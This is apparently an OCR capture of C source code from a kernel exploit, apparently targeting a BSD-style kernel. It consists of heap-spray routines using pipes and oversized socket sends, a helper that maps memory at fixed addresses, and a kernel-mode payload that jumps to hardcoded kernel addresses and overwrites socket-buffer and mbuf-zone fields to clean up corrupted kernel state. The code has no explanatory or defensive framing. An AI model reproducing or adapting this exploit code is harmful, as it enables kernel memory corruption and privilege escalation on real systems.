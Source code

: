 void pipe_spray(void)
{
    char* buf = mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    for(size_t i = 0; i < 4096; i++)
        buf[i] = 0x41;
    for(int i = 0; i < HUGE_SPRAY_SIZE/2; i++)
    {
        int p[2];
        pipe(p);
        fcntl(p[1], F_SETFL, fcntl(p[1], F_GETFL) | O_NONBLOCK);
        write(p[1], buf, 4096);
        write(p[0], buf, 4096);
    }
}

void push_jumbo(int fd)
{
    char buf[2048];
    for(int i = 0; i < 2048; i++)
        buf[i] = 0x41;
    for(int i = 0; i < 31; i++)
        sendto(fd, buf, sizeof(buf), 0, 0, 0);
}

void* mmap_at(void* where, size_t sz)
{
    uintptr_t addr = (uintptr_t)where;
    uintptr_t end = addr + sz;
    addr &= ~4095ull;
    if((uintptr_t)mmap((void*)addr, end - addr, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) != addr)
    {
        printf("failed to mmap_at!\n");
        return 0;
    }
    //prefault pages
    unsigned char* p = where;
    for(size_t i = 0; i < sz; i++)
        p[i] = 0;
    return where;
}

void kernel_payload(int bad_fd)
{
    int(*printf)(const char*, ...) = (void*)0xffffffff8086bf90;
    printf("Hello, kernel world!\n");
    int****** td;
    asm volatile("mov %%gs:0, %0":"=r"(td));
    td[1][9][0][bad_fd][0][81] = 0; // socket->so_snd.sb_cc
    td[1][9][0][bad_fd][0][83] = 0; // socket->so_snd.sb_mbcnf
    void*** zone_mbuf = (void*)0xffffffff811008a0;
    zone_mbuf[0][32] = zone_mbuf[0][33] = 0; //detach buckets
}
